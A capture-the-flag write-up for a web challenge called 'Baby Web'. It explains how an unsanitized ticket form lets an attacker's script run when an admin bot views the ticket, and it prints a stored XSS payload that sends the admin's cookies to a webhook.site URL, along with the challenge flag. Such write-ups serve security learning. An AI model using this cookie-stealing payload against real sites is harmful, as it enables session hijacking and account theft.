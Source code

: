 # Baby Web
Category: Web

## Description
This website seems to have an issue. Let's report it to the admins.

- Junhua

[http://34.124.157.94:5006/](http://34.124.157.94:5006/)

Attachments: [dist.zip](attachments/dist.zip)

## Write-up
- Upon inspecting the source code, we observed that it was a straightforward XSS challenge without any input sanitization measures in place.
- Our approach involved submitting a ticket located at the `/` endpoint with an XSS payload, thereby creating a ticket URL.
- Subsequently, the admin bot would access the ticket's URL and renders the ticket's message.
- To retrieve the flag cookie from admin, our payload needed to redirect the admin to our webhook URL while appending their cookie to it.
- Here is an example of what the ticket message should resemble:
```
<script>location.href = "https://webhook.site/774fac7f-86a1-4682-a2c0-883ea13d0a6a/?" + document.cookie</script>
```

Flag: `grey{b4by_x55_347cbd01cbc74d13054b20f55ea6a42c}`
